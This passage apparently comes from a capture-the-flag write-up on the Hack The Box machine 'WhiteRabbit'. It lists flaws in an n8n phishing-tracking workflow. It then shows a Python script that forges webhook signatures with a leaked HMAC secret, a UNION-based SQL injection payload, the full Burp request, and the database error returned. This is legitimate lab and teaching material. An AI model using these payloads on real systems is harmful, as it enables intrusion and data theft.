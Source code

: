 From here, we can see 4 clear vulnerabilities in the JSON:
- **The HMAC key is exposed**: we can generate a valid signature and spoof requests to n8n.
- **SQL Injection in the "Get current phishing score" node**: the query is not sanitized. We can manipulate the email field.
- **Debug Node**: will help us by returning detailed errors, making it easier to craft a payload.
- **Database credentials in plaintext**: the JSON contains `mariadb - phishing` for connecting to the DB. If n8n access is compromised, these credentials are exposed.

### Exploitation

Let's create a Python script to generate our signature and start building the payload for our SQL Injection:
```python
import hmac, hashlib
secret = "3CWVGMndgMvdVAzOjqBiTicmv7gxc6IS"
body = '''{"campaign_id":1,"email":"\\" UNION SELECT NULL-- -","message":"Clicked Link"}'''
signature = hmac.new(secret.encode(), body.encode(), hashlib.sha256).hexdigest()
print(signature)

```

```json
{
	"campaign_id": 1,
	"email": "\" UNION SELECT NULL-- -",
	"message": "Clicked Link"
}
```

And then we send our request using Burp Suite.
```http
POST /webhook/d96af3a4-21bd-4bcb-bd34-37bfc67dfd1d HTTP/1.1
Host: 28efa8f7df.whiterabbit.htb
x-gophish-signature: sha256=a1d4ca4a631fba4a41b8b452c9eb397d545cb7516a8ce162625cd0a7e802f8cd
Accept: */*
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/json
Content-Length: 80

{
	"campaign_id": 1,
	"email": "\" UNION SELECT NULL-- -",
	"message": "Clicked Link"
}
```

This generates a MySQL exception:
```http
HTTP/1.1 200 OK
Content-Length: 878
Content-Type: text/html; charset=utf-8
Date: Sat, 12 Apr 2025 21:02:59 GMT
Etag: W/"36e-ttY8yOoWJ2kn7GkCQke9mOfvIDs"
Server: Caddy
Vary: Accept-Encoding

The used SELECT statements have a different number of columns | {"level":"error","tags":{},"context":{"itemIndex":0},"functionality":"regular","name":"NodeOperationError","timestamp":1744491779797,"node":{"parameters":{"resource":"database","operation":"executeQuery","query":"SELECT * FROM victims where email = \"{{ $json.body.email }}\" LIMIT 1","options":{}},"id":"5929bf85-d38b-4fdd-ae76-f0a61e2cef55","name":"Get current phishing score","type":"n8n-nodes-base.mySql","typeVersion":2.4,"position":[1380,260],"alwaysOutputData":true,"retryOnFail":false,"executeOnce":false,"notesInFlow":false,"credentials":{"mySql":{"id":"qEqs6Hx9HRmSTg5v","name":"mariadb - phishing"}},"onError":"continueErrorOutput"},"messages":[],"obfuscate":false,"description":"sql: SELECT * FROM victims where email = \"\" UNION SELECT NULL-- -\" LIMIT 1, code: ER_WRONG_NUMBER_OF_COLUMNS_IN_SELECT"}
```